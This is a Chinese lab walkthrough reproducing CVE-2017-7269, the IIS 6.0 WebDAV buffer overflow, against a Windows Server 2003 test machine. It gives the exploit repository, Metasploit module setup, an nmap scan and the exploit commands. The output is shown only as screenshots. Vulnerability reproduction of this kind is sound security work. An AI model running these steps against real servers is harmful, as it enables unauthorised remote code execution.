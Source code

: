 （CVE-2017-7269）IIS 6.0开启Webdav 缓存区溢出漏洞
=================================================

一、漏洞简介
------------

IIS
6.0开启Webdav服务的服务器被爆存在缓存区溢出漏洞导致远程代码随意执行，目前针对
Windows Server 2003 R2 可以稳定利用。

二、漏洞影响
------------

三、复现过程
------------

### 环境搭建

目标主机：Windows Server 2003 R2镜像下载：种子文件用迅雷下载:

    ed2k://|file|cn_win_srv_2003_r2_enterprise_with_sp2_vl_cd1_X13-46432.iso|637917184|284DC0E76945125035B9208B9199E465|/

IP：192.168.1.104

A.安装IIS6.0服务：

![](./resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId25.png)

B.打开WebDAV服务拓展：

![](./resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId26.png)

攻击机：kali Linux镜像下载：https://www.kali.org/downloads/IP:192.168.1.106

### 配置攻击套件

\--首先我们要下载EXP文件，输入：

> git clone https://github.com/ianxtianxt/cve-2017-7269 //下载EXp
>
> ls //查看当前目录下的文件

![](./resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId28.png)

\--然后我们需要复制EXP到msf框架中\#注意复制时，是下划线"\_"不要写成cve-2017-7269.rb\#，在目录下重命名这个文件为cve\_2017\_7269.rb，输入：

> cp cve\_2017\_7269.rb
> /usr/share/metasploit-framework/modules/exploits/windows/iis/
> //复制EXP到相应目录
>
> cd /usr/share/metasploit-framework/modules/exploits/windows/iis/
> //进入目录
>
> ls //查看当前目录下的文件

![](./resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId29.png)

![](./resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId30.png)

\--我们使用nmap扫描一下靶机的端口情况，输入：

> nmap 192.168.1.104 //扫描192.168.1.104的端口

![](./resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId31.png)

可以看到我们要攻击的80端口已经开启\#

### 利用msf开始攻击

![](./resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId33.png)

\--然后我们要使用刚才复制进去的EXP套件输入：

    msf5 > use exploit/windows/iis/cve_2017_7269 //使用此套件
    msf5 > show options //查看需要的配置

发现只需要配置RHOSTS(目标IP)，最好把RPORT(目标端口)也配置下

![](./resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId34.png)

    msf5 > set rhosts 192.168.1.104 // 设置目标的IP
    msf5 > set rport 80 //设置目标端口

![](./resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId35.png)

    msf5 > exploit

![](./resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId36.png)

